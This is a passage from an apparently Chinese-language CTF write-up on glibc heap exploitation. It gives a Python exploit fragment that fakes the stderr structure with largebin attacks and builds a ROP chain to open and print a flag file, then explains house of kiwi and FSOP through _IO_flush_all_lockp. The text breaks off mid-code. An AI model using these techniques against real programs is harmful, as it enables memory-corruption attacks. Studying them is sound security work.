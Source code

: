```python
# largebin attack(fake stderr struct)
edit(0,p64(libc_base+0x21a0d0)*2 + p64(heap_base+0x290) + p64(stderr-0x20))

# 触发第一次largebin attack(add(5)), 同时为后面一次分配堆(add(5), add(7))
add(5,0x440,"55555")
add(6,0x430,"./flag")
add(7,0x430,"77777")

rop = p64(pop_rdi) + p64(0) + p64(close) #close(0)
rop += p64(pop_rdi) + p64(flag_addr) + p64(pop_rax) + p64(2) + p64(syscall_ret) #open(flag)
rop += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(flag_addr+0x10) + p64(pop_rdx_r12) + p64(0x100) + p64(0) + p64(read) #read(0,flag_addr+0x10,0x100)
rop += p64(pop_rdi) + p64(flag_addr+0x10) + p64(puts) #puts(flag_addr+0x10)

# 第二次largebin attack
add(8,0x430,rop) # +0x2040 +0x2050
free(5)
add(9,0x450,"9999")
free(7)
edit(5,p64(libc_base + 0x21a0e0)*2 + p64(heap_base + 0x1370) + p64(heap_base + 0x28e0-0x20 + 3))
```
##### &emsp;&emsp;&emsp;有几点细节需要注意.<br>
##### &emsp;&emsp;&emsp;第一, 这套基于```__malloc_assert```的打法在现在更高版本的glibc中已经不复存在了, 因为```__malloc_assert```被删除了, 但是largebin attack的其他方法, 比如FSOP依然可以<br>
##### &emsp;&emsp;&emsp;第二, stderr结构体指针有时不在libc中, 而是在```.bss```段中. 出现这种情况一般是使用了```setvbuf()```, 而不是```setbuf()```或者不使用. 这是因为```setvbuf()```会在源文件中使用三个```extern```变量指针, 在链接时被ld放入```.bss```段; 而```setbuf()```使用的三个指针放在```.got```内作为外部链接<br>
##### &emsp;&emsp;&emsp;第三, 由于largebin attack写入的是chunk head的地址, 再加上前4个字长的large bin的信息, 所以导致将这个堆块看作一个IO_FILE_PLUS时, 它的_flag(前8字节), 以及_IO_read_ptr, _IO_read_end, _IO_read_base, _IO_write_base, _IO_write_ptr(各八个字节)实际上是难以控制的, 除非有heap overflow或者UAF之类漏洞, *但是即使这样也不会影响这种攻击方法的使用*.

### &emsp;FSOP
##### &emsp;&emsp;&emsp;一个比较古老的漏洞，但是进入“虚表偏移时代”之后FSOP的形式出现了一些不同<br>
##### &emsp;&emsp;&emsp;FSOP利用的两个部分，第一是它的调用链，第二是触发FSOP
#### &emsp;触发IO
##### &emsp;&emsp;&emsp;在伪造了相应结构之后, 想要进行FSOP, 让伪造数据被用上, 需要先进入IO流, 在高版本的glibc中, 一般有两种方式进入IO流: ```_IO_flush_all_lockp()```, 以及```house of kiwi```方法, ```house of kiwi```方法就是上面的```__malloc_assert```方法.
#### &emsp;_IO_flush_all_lockp()方法
##### &emsp;&emsp;&emsp;这种方法是FSOP的传统做法, ```_IO_flush_all_lockp()```会从```_IO_list_all```查找```IO_FILE```结构体, 然后分别对每个结构体flush, 这个过程中会使用虚表中的```_IO_overflow```<br>
##### &emsp;&emsp;&emsp;触发这个函数又有一些办法, 但是在高版本glibc中砍得七七八八, 基本只剩下程序使用```exit()```退出这一种比较常见又方便利用的方法<br>
##### &emsp;&emsp;&emsp;精简代码
```c
int _IO_flush_all_lockp (int do_lock){
  ...
  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
  {
       ...
    if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
```